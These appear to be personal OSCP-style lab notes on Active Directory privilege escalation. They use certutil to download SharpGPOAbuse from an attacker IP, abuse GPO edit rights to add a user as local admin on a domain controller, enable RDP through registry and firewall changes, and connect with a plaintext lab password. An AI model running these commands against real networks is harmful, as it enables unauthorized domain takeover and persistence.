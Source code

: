 ![[Pasted image 20250712165847.png]]
EDIT POLICY allows us to add a local amdin user and other stuff, so we then trf sharpgpoabuse 
```
certutil -f -urlcache -split http://192.168.45.158/SharpGPOAbuse.exe SharpGPOAbuse.exe
```
then we ran this cmd to add eric wallows to the admin users on DC01,
also you need to use an existing domain user for this to work
```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount Eric.Wallows --GPOName "Default Domain Policy"
```
then to update the GPO, run
```
gpupdate /force
```
and then check administrators 
```
net localgroup administrators
```




## ADDING USER TO RDP 

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

Allow RDP in the firewall:

```
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

ADDED ERIC.WALLOWS TO LOCAL ADMIN

```
net localgroup administrators "oscp.exam\eric.wallows" /add
```
![[Pasted image 20250721230246.png]]
then i connected using 
```
xfreerdp3 /u:Eric.wallows /p:'EricLikesRunning800' /v:192.168.123.147 /d:oscp.exam
```


## RDP COMMANDS

```
here are reference notes for rdp

1. This will enable the copy paste clipboard

xfreerdp3 /u:siren /p:somepass /v:192.168.180.153 /cert:ignore /clipboard:direction-to:all

2. You can use the following command to track what's on your clipboard :-

xsel --clipboard --output xclip -o

3. Alternatively use CTRL + SHIFT + v, to paste on the terminal.

4. You can also open a text editor on your Kali machine e.g mousepad, and then do CTRL + v, to paste what's on your clip-board.
```
